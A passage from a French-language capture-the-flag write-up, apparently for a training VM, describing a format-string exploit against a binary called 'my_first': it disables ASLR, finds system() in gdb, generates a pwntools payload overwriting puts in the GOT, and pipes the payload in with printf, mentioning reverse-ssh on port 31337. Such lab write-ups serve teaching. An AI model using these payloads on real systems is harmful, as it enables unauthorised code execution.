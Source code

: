 ```bash
[*] pushing payload b'%53440c%15$hn%9988c%16$hnaaa\x04\x9c\x04\x08\x06\x9c\x04\x08' (size 36)
[*] Switching to interactive mode
$
```

Bingo ! Plus qu'à corriger l'exploit pour qu'il utilise les fonctionnalitées `remote` de `pwntools` sauf que...

- le serveur SSH de la VM ne semble accepter que les mots de passe (dont on ne dispose pas) et ne tient pas compte du fichier `authorized_keys`

- `pwntools` ne semble pas fonctionner avec `reverse-ssh` que j'ai lancé sur le port 31337 de la VM

- en rajoutant une entrée à mon fichier `.ssh/config` pour autoriser quelques protocoles SSH dépréciés pour la VM je peux me connecter en SSH mais `pwntools` génère une exception dans sa dépendance `paramiko`

- 

Au final l'exploitation a consisté à :

- désactiver l'ASLR avec `ulimit`

- obtenir l'adresse de `system()` désormais fixe dans la mémoire du programme directement avec gdb (`0x40069060`)

- obtenir la chaine de format à passer au programme pour écraser l'adresse de `puts` dans la GOT via le code Python suivant

```python
from pwn import *

elf = ELF('./my_first')

info("puts@got = %#x", elf.got.puts)

payload = fmtstr_payload(8, {elf.got.puts: 0x40069060}, write_size="byte", strategy="small")
print(payload)
```

Je passe la chaine générée ainsi que les différents choix à saisir sur l'entrée standard du programme :

```bash
mike@pegasus:/home/mike$ printf '1\n1\n%%64c%%17$hhn%%32c%%18$hhn%%1584c%%19$hnaa\x07\x9c\x04\x08\x04\x9c\x04\x08\x05\x9c\x04\x08\n4\n' | ./my_first
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection:
Enter first number: Enter second number: Error details:
```
